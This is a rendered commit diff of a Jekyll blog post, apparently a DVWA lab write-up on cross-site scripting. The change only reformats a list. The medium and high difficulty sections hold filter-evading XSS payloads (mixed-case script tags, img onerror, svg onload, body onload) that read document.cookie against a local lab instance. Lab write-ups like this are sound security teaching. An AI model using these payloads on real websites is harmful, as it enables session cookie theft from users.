

Before and after one commit to marselia/marselia.github.io, a Jekyll site: the page built from _posts/2020-05-11-DVWA3.md, in a window 1280 px wide and 900 px high, scrolled down 2740 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-05-11-DVWA3.md

```diff
--- a/_posts/2020-05-11-DVWA3.md
+++ b/_posts/2020-05-11-DVWA3.md
@@ -52,7 +52,6 @@ MEDIUM: The script replace "<.script" with blank space. So we can change one or
 - https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.SCriPt>alert(document.cookie)<./SCriPt>
 
 HIGH: We can't use <.script>.
-
 - <.img src=nosource onerror=alert(document.cookie)>
 - <.svg/onload=alert(document.cookie)>
 - <.body onload=alert(document.cookie)>
@@ -86,10 +85,9 @@ Or sending a post request like this:
 ![]({{ site.baseurl }}/images/DVWA-8.JPG)
 
 HIGH: We use the Name field, but in this case we can't use 'script' in any of its variants.
-
-<.img src=nosource onerror=alert(document.cookie)>
-<.svg/onload=alert(document.cookie)>
-<.body onload=alert(document.cookie)>
+- <.img src=nosource onerror=alert(document.cookie)>
+- <.svg/onload=alert(document.cookie)>
+- <.body onload=alert(document.cookie)>
 
 
 ## CSP Bypass
```
